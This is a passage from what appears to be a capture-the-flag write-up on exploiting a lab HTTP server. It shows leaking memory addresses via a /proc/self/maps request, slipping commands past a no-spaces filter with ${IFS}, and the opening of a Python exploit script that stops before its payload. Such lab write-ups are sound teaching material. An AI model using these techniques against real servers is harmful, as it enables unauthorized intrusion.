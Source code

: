 [![burp to read
/proc/self/maps](https://0xdfimages.gitlab.io/img/1567232400107.png)_Click for
full size image_](https://0xdfimages.gitlab.io/img/1567232400107.png)

Now I can get the base address for both the program (first line) and libc, as
well as the location of the libc its running, `/lib32/libc-2.27.so`.

I can confirm that these leaks will point to the right places by checking on
my local system:

[![Memory example](https://0xdfimages.gitlab.io/img/rope-
localhost_libc_calcs.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/rope-localhost_libc_calcs.png)

### Obsticle 2: Command

I can pass my command to `puts` (which is now `system`), but I have the
constraint that that variable is only read up to the first space character. So
my challenge is getting the execution I want without any spaces. I immediately
thought of using tabs from a [similar challenge in Helpline](/2019/08/17/htb-
helpline-win.html#shell-as-leo), but tabs didn’t seem to work. However, the
`${IFS}` environment variable did! So a command like `echo${IFS}0xdf` would
parse by the webserver as one word, but when passed to `system`, the shell
would treat `${IFS}` as whitespace!

### Script It

Now I’ll build my script. It’s difficult to show this kind of thing step by
step, but know that this was built up little bit by bit and eventually
polished to this. I’ll walk through it after the code:

    
    
      1 #!/usr/bin/env python3
      2 import base64
      3 import fcntl
      4 import requests
      5 import socket
      6 import struct
      7 import sys
      8 import urllib.parse
      9 
     10 
     11 def pad(s):
     12     return s+b"."*(1024-len(s))
     13 
     14 
     15 def get_memory_base_addresses(ip, port=9999):
     16     r = requests.get(f'http://{ip}:{port}//proc/self/maps', headers={"Range": "bytes=0-1000000"})
     17     libc_base = int([x for x in r.text.split('\n') if 'libc-' in x][0].split('-')[0], 16)
     18     httpserver_base = int([x for x in r.text.split('\n') if 'httpserver' in x][0].split('-')[0], 16)
     19     return (httpserver_base, libc_base)
     20 
     21 
     22 if len(sys.argv) != 3:
     23     print(f'[-] Usage: {sys.argv[0]} [target ip] [command]')
     24     sys.exit()
     25 
     26 target_ip = sys.argv[1]
     27 cmd = sys.argv[2]
     28 
     29 # readelf -s libc-2.27.so_ | grep " system@@GLIBC"
     30 #  1510: 0003cd10    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
     31 # readelf -s /usr/lib/i386-linux-gnu/libc-2.28.so | grep " system@@GLIBC"                   
     32 #  1525: 0003ec00    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0  